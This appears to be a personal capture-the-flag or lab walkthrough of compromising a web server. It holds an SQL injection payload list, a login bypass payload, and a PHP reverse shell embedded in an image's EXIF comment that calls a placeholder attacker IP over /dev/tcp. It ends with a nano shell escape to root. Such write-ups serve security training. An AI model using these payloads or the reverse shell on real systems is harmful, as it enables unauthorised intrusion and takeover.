 ```yaml
---
sticker: emoji//1f6e4-fe0f
---
```

![](cybersecurity/images/Pasted%2520image%252020241007144603.png)
# Enumeration

```ad-info
**OPEN PORTS**:
![](cybersecurity/images/Pasted%2520image%252020241007144658.png)
**FUZZING FOR PORT 80**:
![](cybersecurity/images/Pasted%2520image%252020241007150635.png)

```

The moment I went to `/gallery`, I realized it was a login page, I tried some XSS and when I sent the request, this was the output:

![](cybersecurity/images/Pasted%2520image%252020241007150803.png)
Seems like this login page is vulnerable to [[SQL INJECTION (SQLI)|SQLI]]
So, let's try to exploit it:

For this, I am using burp's intruder with the following payload list:

```ad-summary
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		
||		
%		
@variable	
@@variable	
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
1 AND (SELECT * FROM Users) = 1	
' AND MID(VERSION(),1,1) = '5';
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```

Also, as seen in the request, it must be URL encoded, so, I also put this in the payload processing:

![](cybersecurity/images/Pasted%2520image%252020241007152753.png)

Let's launch the attack:
![](cybersecurity/images/Pasted%2520image%252020241007152809.png)

![](cybersecurity/images/Pasted%2520image%252020241007152818.png)
Seems like the attack worked for that payload, if we decode it, it is this payload:

`' OR 1 -- -`

And we got in as admin:

![](cybersecurity/images/Pasted%2520image%252020241007153027.png)

If we look around, we find an image upload section:

![](cybersecurity/images/Pasted%2520image%252020241007153644.png)

We can refer to our [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/FILE UPLOAD|FILE UPLOAD]] note, when we try to upload a file, we can only upload images, `.jpg, .png` so, let's use `exiftool` to embed a reverse shell between an image:

```ad-note
```php-template
exiftool -Comment="<?php echo shell_exec('/bin/bash -c \'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/YOUR_PORT 0>&1\''); ?>" cat.jpg -o shell.php
```

As we can see, file is an jpeg now:

![](cybersecurity/images/Pasted%2520image%252020241007160746.png)

Let's try to upload it now:

![](cybersecurity/images/Pasted%2520image%252020241007161320.png)
![](cybersecurity/images/Pasted%2520image%252020241007161325.png)
![](cybersecurity/images/Pasted%2520image%252020241007161334.png)
And we got a shell!

Let's proceed with PRIVILEGE ESCALATION:

First, let's spawn a [[STABLE SHELL|stable shell]], once we've done this, it's time to begin with our privilege escalation:

For the privilege escalation, I used [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), when I looked at linpeas output, I found this:
![](cybersecurity/images/Pasted%2520image%252020241007163005.png)
seems like the password for user mike, let's su to mike:

![](cybersecurity/images/Pasted%2520image%252020241007163600.png)
Now we are in as mike, let's look at mike's privileges:

![](cybersecurity/images/Pasted%2520image%252020241007163724.png)
We found a rootkit.sh script, let's look at it:

![](cybersecurity/images/Pasted%2520image%252020241007163807.png)
As shown in the read function of the script, it uses nano, if we go to gtfobins, this is shown:
![](cybersecurity/images/Pasted%2520image%252020241007164109.png)

If we execute the script as the root user, this happens:
![](cybersecurity/images/Pasted%2520image%252020241007165053.png)

Let's enter the read option:
![](cybersecurity/images/Pasted%2520image%252020241007164217.png)
Next, enter `ctrl+r` and `ctrl+x`, then the following command:

`reset; sh 1>&0 2>&0`

![](cybersecurity/images/Pasted%2520image%252020241007165137.png)

![](cybersecurity/images/Pasted%2520image%252020241007165154.png)

And just like that, we got root access!

